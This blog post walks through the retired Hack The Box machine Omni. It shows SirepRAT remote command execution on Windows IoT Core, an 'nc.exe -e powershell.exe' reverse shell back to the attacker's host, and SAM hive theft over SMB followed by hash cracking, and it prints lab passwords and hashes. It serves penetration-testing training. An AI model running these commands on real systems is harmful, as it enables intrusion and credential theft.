







## Introduction

This will be my first post in a series I will be publishing on retired HTB machines. For those who don't know, [Hack the Box](https://www.hackthebox.eu/) is an online learning and penetration testing platform. It offers a wide variety of hands-on learning and challenges, but their most selling feature to me are their boxes. I started using the platform some time ago mostly focussing on challenges and playing around with retired boxes (VMs). They make a difference between live and retired boxes, a retired box is like the word says retired. For these boxes, you can find extensive write-ups inside the platform or either online. When a box becomes retired this allows anyone to share their write-ups and learnings with the rest of the community. The platform works with a point-based system and only the live boxes will allow you to score points. Still, these retired boxes are a great way to learn penetration testing in a fun and interactive manner.

A couple of months ago I finally decided to take the plunge and try to solve one of their live boxes. It's technically not the first live box I started but is the first one I managed to complete and get written up. The box I'm talking about is called Omni and is an easy Windows challenge or so they claim. They retired this box a few days ago as of this writing, which means I'm finally able to post my write-up. I really enjoyed this box and had a lot of fun trying to snatch those flags of the box. In this write-up, I walk you through the steps I took to get a foothold on the box and how I escalated my privileges. Let's dive right in!

## Reconnaissance

First things first, any good reconnaissance always starts with an `nmap` scan to see which ports are open and which services are running on those ports. This will give us a better understanding of what is running on the box and give an idea of where to focus our next efforts.

```sh
sudo nmap -sC -sV -o nmap 10.10.10.204
```

- **-sC** run default nmap scripts
- **-sV** enumerate versions
- **-o** for sending output to a file

Storing the output of an `nmap` scan to a file can save you some time if you ever need to get back to them. That's also why it's good to stay organised during your investigation and have all your analysis neatly organised in a folder.

```sh
Nmap scan report for 10.10.10.204
Host is up (0.029s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.62 seconds
```

The scan reveals that we are dealing with a Windows machine (something we already knew going into this box, but always good seeing this confirmed), running MSRPC on port 135 and an IIS web server exposing a service on port 8080. One interesting thing to note is that the service on port 8080 got labelled as `Windows Device Portal`. Searching for this online will reveal that this is a web application that allows remote management of [Windows IoT Core](https://docs.microsoft.com/en-us/windows/iot-core/manage-your-device/deviceportal). It also shows that his page will be protected with some sort of authentication mechanism `HTTP/1.1 401 Unauthorized\x0D`. With this knowledge at hand, it is time to open up a browser and see what is shown at that endpoint, plugging `10.10.10.204:8080` into a browser will show us a basic-auth login dialogue:



The documentation for the Windows Device Portal indicates that the default username and password for the dashboard is `Administrator` and `p@ssw0rd` ([reference](https://docs.microsoft.com/en-us/windows/iot-core/manage-your-device/deviceportal#1-windows-10-iot-dashboard)). But as it turns out, those seem to have been changed as we get presented with an authorization required message. This would have been too easy, so good on them.



The first nmap scan only discovered a couple of ports and we don't have much more to go on from here. So let's run another nmap scan that's a bit more aggressive and will enumerate all ports: `sudo nmap -sC -sV -Pn -p- -o nmap-a 10.10.10.204`.

```sh
Nmap scan report for 10.10.10.204
Host is up (0.030s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.91%I=7%D=1/11%Time=5FFC99D0%P=x86_64-pc-linux-gnu%r(N
SF:ULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"
SF:\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x0
SF:4G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\x
SF:c9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.91 seconds
```

When the second scan finished, it turned up 3 new ports (29817, 29819 and 29820), some research online will show that these three ports are related to the Sirep protocol. Digging a bit deeper into this protocol you will find lots of references to Windows IoT and a GitHub repository. This is in line with what our nmap exploration has uncovered and means we are on the right track!



Looking into the GitHub repository, it seems that this is a RAT (Remote Access Trojan), allowing us to exploit the Sirep TestService built-in and running on the official images of Windows IoT Core OS. The docs directory contains a [pdf presentation](https://github.com/SafeBreach-Labs/SirepRAT/blob/master/docs/SirepRAT_RCE_as_SYSTEM_on_Windows_IoT_Core_White_Paper.pdf) and a [white paper](https://github.com/SafeBreach-Labs/SirepRAT/blob/master/docs/SirepRAT_RCE_as_SYSTEM_on_Windows_IoT_Core_Slides.pdf) that are interesting to have a look at. The whitepaper shows that the exploit will give us access to the SYSTEM account. Which means we immediately have access to the most privileged account on Windows 😲. Let's clone the repository and have a look around to see what we can do with it:

```sh
git clone https://github.com/SafeBreach-Labs/SirepRAT.git
cd SirepRAT
virtualenv venv
source ./venv/bin/activate
pip install -r requirements.txt
```

I always prefer setting up any python related tools in their own virtual environment. It means that we can be relatively sure to get the program or script up and running without any conflicts. Nor do we have to worry about breaking any other python tools on our box.

## Getting a foothold

At this point we should be ready to play around with `SirepRAT` but first, let's have a look at the output of `--help` and get an overview of all available options:

```sh
$ python3 SirepRAT.py --help

usage: SirepRAT.py target_device_ip command_type [options]

Exploit Windows IoT Core's Sirep service to execute remote commands on the device

positional arguments:
  target_device_ip      The IP address of the target IoT Core device
  command_type          The Sirep command to use. Available commands are listed below

optional arguments:
  -h, --help            show this help message and exit
  --return_output       Set to have the target device return the command output stream
  --cmd CMD             Program path to execute
  --as_logged_on_user   Set to impersonate currently logged on user on the target device
  --args ARGS           Arguments string for the program
  --base_directory BASE_DIRECTORY
                        The working directory from which to run the desired program
  --remote_path REMOTE_PATH
                        Path on target device
  --data DATA           Data string to write to file
  --v                   Verbose - if printable, print result
  --vv                  Very verbose - print socket buffers and more

available commands:
*       LaunchCommandWithOutput
*       PutFileOnDevice
*       GetFileFromDevice
*       GetFileInformationFromDevice
*       GetSystemInformationFromDevice

remarks:
-       Use moustaches to wrap remote environment variables to expand (e.g. {{userprofile}})

Usage example: python SirepRAT.py 192.168.3.17 GetFileFromDevice --remote_path C:\Windows\System32\hostname.exe
```

Let the output sink in for a bit, some of these arguments might prove useful in a sec. Next, let's give the example from the `--help` output a try and make sure the script is working:

```sh
 python SirepRAT.py 10.10.10.204 GetFileFromDevice --remote_path C:\Windows\System32\hostname.exe

<HResultResult | type: 1, payload length: 4, HResult: 0x80070002>
```

That didn't return all to much, but we can assume it worked given the returned payload length is 4. Let's try another one, this time we will use a command directly coming from the project's README page. It executes `cmd.exe` and returns the current user profile path. Let's also add `--v` to the command to get more verbose and better-formatted output. There's also `--vv` to play around with, have a play with these different arguments. The `--vv` argument could prove helpful if you would like to get a more thorough understanding of the network internals of the Sirep protocol.

```sh
$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}" --v

---------

---------
---------
C:\Data\Users\System

---------
---------

---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 22, payload peek: 'b'C:\\Data\\Users\\System\r\n''>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: 'b'\x00\x00\x00\x00''>
```

This shows that the user we have access to is the SYSTEM account, also take note of the `Data` directory at the root of the C drive. It's a bit weird but good to know that the whole Windows IoT OS is inside the Data directory including our user profile, this will be useful in a bit. Now let's see if we can get a reverse shell. To get a reverse shell we'll leverage the `LaunchCommandWithOutput` command and let's also switch to PowerShell which is a bit nicer to use that `cmd.exe`.

```sh
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args '-Command "$env:userprofile"' --v
```

At this point I got stuck for a couple of hours without making much of any progress, I was firmly convinced in creating a PowerShell only reverse shell. After trying many different combinations of Powershell reverse shells it started to dawn on me that this was not going to work. The Windows IoT image is pretty trimmed down missing some vital binaries or functions to get a reverse shell going in Powershell. After a small break, I went back to the drawing board having a look at a site with some amazing hacks and tricks namely [hacktricks](https://book.hacktricks.xyz). And looking for just a brief second at this [page](https://book.hacktricks.xyz/shells/shells/windows#nc) it immediately hit me. Netcat for windows is self-contained and will more likely be able to run on Windows IoT. But we'll need to know what architecture we are dealing with to make sure we download the correct one, either 64 bit or 32 bit.

```sh
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args '-Command "ls env
:"' --v

<trunc>
PROCESSOR_ARCHITECTURE         AMD64
<trunc>
```

It's quick and dirty but gets the job done, the response is truncated in the example above, but we can see that the processor architecture is AMD64, hence we'll need the 64-bit version of netcat. With `curl -LO https://github.com/int0x33/nc.exe/raw/master/nc64.exe` it's easy to get the binary on our local machine. With `python -m http.server` we'll bring up a local web server which will help to deliver payloads onto the target machine. The following will download nc64 onto the target machine, where `10.10.14.31` is the IP of your local machine and `8000` is the port where python is running. In another pane have `nv -lnvp 9000` ready to receive the reverse shell:



As you can see we have got a Powershell session on the box, so let's take a look and see if we can read any of the flags of the system.

```powershell
PS C:\Data\Users\Administrator> ls

ls


    Directory: C:\Data\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         7/3/2020  11:23 PM                3D Objects
d-r---         7/3/2020  11:23 PM                Documents
d-r---         7/3/2020  11:23 PM                Downloads
d-----         7/3/2020  11:23 PM                Favorites
d-r---         7/3/2020  11:23 PM                Music
d-r---         7/3/2020  11:23 PM                Pictures
d-r---         7/3/2020  11:23 PM                Videos
-ar---         7/4/2020   9:48 PM           1958 root.txt
```

Having a look at the `root.txt` file we get presented with the following XML. This is a PowerShell credential, meaning that the password is encrypted with the password of the user that created this credential file. It means that we need to find the credentials for the user and admin account. This way we can pivot into these accounts and use `$credential = Import-Clixml -Path C:\Data\Users\Administrator\root.txt;$credential.GetNetworkCredential().Password"` to read the flags as plain text.

```sh
PS C:\Data\Users\Administrator> cat root.txt

cat root.txt
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">flag</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04....1b40ebbf5971cd260f738dada1a7</SS>
    </Props>
  </Obj>
</Objs>
```

## Privilege Escalation

For the privilege escalation I'll go over 2 different paths you can take to solve this box. The one I took and the one as was intended by the challenge author. The way I solved it is a bit of a hack, but I didn't realise it at the time. It wasn't until I read a couple of write-ups after the box retired that I realized I kinda cheated solving this challenge. When running my privilege escalation script I discovered a funky task running on the system that lead me directly to both Administrator and App user credentials. Let's first have a look at how I solved it!

### My Solution

After getting a shell its worth to have a good privilege escalation script ready to run. Running [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) will list out a bunch of possibilities on how to potentially escalate privileges. It will print out a big list and one of the things you might see is a task that isn't normally scheduled on a Windows machine. Let's dig a bit deeper with `schtasks`

```powershell
PS C:\windows\system32> schtasks /query
schtasks /query

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
revert                                   N/A                    Running

<trunc>
```

The output is truncated for brevity. But the first returned result is called `revert`, which stands out when taking a look at the other returned tasks. Let's dig a bit deeper and see what makes up this task:

```powershell
PS C:\Data\Users\Administrator> schtasks /query /fo LIST /v /tn revert
schtasks /query /fo LIST /v /tn revert

Folder: \
HostName:                             omni
TaskName:                             \revert
Next Run Time:                        N/A
Status:                               Running
Logon Mode:                           Interactive/Background
Last Run Time:                        1/10/2021 11:03:40 PM
Last Result:                          267009
Author:                               OMNI\Administrator
Task To Run:                          C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
```

The task contains a path to a bat script, dumping the contents of this script gives us both the password for the `App` and the `Administrator` account:

```powershell
PS C:\Data\Users\Administrator> cat "C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat"
cat "C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat"
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```

With both usernames and password found, it is possible to retrieve the flags by logging into the Device Portal:



This is successful, and we gain access to the web portal.



There is a section in the portal that allows us to run remote commands. It contains a simple HTML input box to write commands and any outputs after pressing run are relayed back to the web page. We could use this and go through the effort of trying to grab the flag this way. Or we can do what we did before and get a reverse shell by launching netcat with `nc -lnvp 9000` on our local machine and execute `C://nc.exe -e powershell.exe 10.10.14.31 9000` on the portal. This will give us a reverse shell which we can control from our terminal.



When we get the reverse shell it should be fairly easy to get the user flag:

```powershell
PS C:\windows\system32> $credential = Import-Clixml -Path C:\Data\Users\App\user.txt;$credential.GetNetworkCredential().Password

$credential = Import-Clixml -Path C:\Data\Users\App\user.txt;$credential.GetNetworkCredential().Password
7cfd50f6bc34db3204898f1505ad9d70
```

For the next one, we just need to go through the same steps again. But instead of the `App` user, we should log in with the `Administrator` user:

```powershell
PS C:\windows\system32> $credential = Import-Clixml -Path C:\Data\Users\Administrator\root.txt;$credential.GetNetworkCredential().Password

$credential = Import-Clixml -Path C:\Data\Users\Administrator\root.txt;$credential.GetNetworkCredential().Password
5dbdce5569e2c4708617c0ce6e9bf11d
```

And that's it! What I didn't realise until much later is that this task was intentionally put there by the author to make sure that the password for the App user and Administrator user wouldn't get changed by another HTB user that is trying to solve the challenge. So now let's also have a look at the intended way to solve this challenge.

### The Intended Solution

The intended solution has us downloading the SAM to our local machine so that we can crack the user account hashes contained in it. The Windows SAM or Security Account Manager is a database file present in every Windows OS from Windows XP that stores all user passwords. These passwords are stored as a hash in either as an LM hash or as an NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

To get the files onto our local machine we'll need to create an SMB share that we can write to from Omni. Modern Windows now requires that SMB shares are mounted with authentication, so we'll run it with a username and password configured.

```sh
$ sudo impacket-smbserver share . -smb2support -username beep -password boop

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

We should now be able to mount this share from Omni:

```powershell
PS C:\windows\system32> net use \\10.10.14.31\share /u:beep boop

net use \\10.10.14.31\share /u:beep boop
The command completed successfully.
```

With `reg save` we can dump the contents of the 3 hives we need and write them directly to our SMB share.

```powershell
PS C:\windows\system32> reg save HKLM\sam \\10.10.14.31\share\sam
reg save HKLM\sam \\10.10.14.31\share\sam
The operation completed successfully.

PS C:\windows\system32> reg save HKLM\system \\10.10.14.31\share\system
reg save HKLM\system \\10.10.14.31\share\system
The operation completed successfully.

PS C:\windows\system32> reg save HKLM\security \\10.10.14.31\share\security
reg save HKLM\security \\10.10.14.31\share\security
The operation completed successfully.
```

All files should now be available from the folder where we exposed our SMB server. With secretsdump from impacket we can dump all hashes and copy them into a file so we can try to crack some of them.

```sh
$ impacket-secretsdump -sam sam -security security -system system LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4a96b0f404fd37b862c07c2aa37853a5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM
dpapi_machinekey:0xdc2beb4869328393b57ea9a28aeff84932c3e3ef
dpapi_userkey:0x6760a0b981e854b66007b33962764d5043f3d013
[*] NL$KM
 0000   14 07 22 73 99 42 B0 ED  F5 11 9A 60 FD A1 10 EF   .."s.B.....`....
 0010   DF 19 3C 6C 22 F2 92 0C  34 B1 6D 78 CC A7 0D 14   ..<l"...4.mx....
 0020   02 7B 81 04 1E F6 1C 66  69 75 69 84 A7 31 53 26   .{.....fiui..1S&
 0030   A3 6B A9 C9 BF 18 A8 EF  10 36 DB C2 CC 27 73 3D   .k.......6...'s=
NL$KM:140722739942b0edf5119a60fda110efdf193c6c22f2920c34b16d78cca70d14027b81041ef61c6669756984a7315326a36ba9c9bf18a8ef1036dbc2cc27733d
[*] Cleaning up...
```

This returns a couple of hashes and writes them to stdout, copy and save these hashes into a file. The format of a single line is `username:userid:lanmanhash:ntlmhash`, we only need the username and ntlmhash. So let's clean up this file and make sure we have the right format.

```sh
$ cat hashes| awk -F: '{print $1":"$4}' > hashes_clean
```

Now we have the hashes for all users on the box, let's see if we can get them cracked:

```sh
$ hashcat -m 1000 ./hashes_clean ./rockyou.txt --user

```

When this command finished and managed to run successfully, we can use the following to show which passwords got cracked. The cracked passwords will get appended to the end of each line.

```sh
$ hashcat -m 1000 ./hashes_clean ./rockyou.txt --user --show

Guest:31d6cfe0d16ae931b73c59d7e0c089c0:
DefaultAccount:31d6cfe0d16ae931b73c59d7e0c089c0:
app:e3cb0651718ee9b4faffe19a51faff95:mesh5143
```

And once again we find that the password for the app account is `mesh5143`. We didn't manage to crack the `Administrator` account, to get access to this account we'll need to login via the portal as we did before. In the `app` home folder you will find a file named `iot-admin.xml`, this is another PSCredential that contains the admin password. To grab the flags we'll need to go through the same steps as before by logging into the portal and using PowerShell to grab the flag from the PSCredential file.

And that's it, we owned the box!
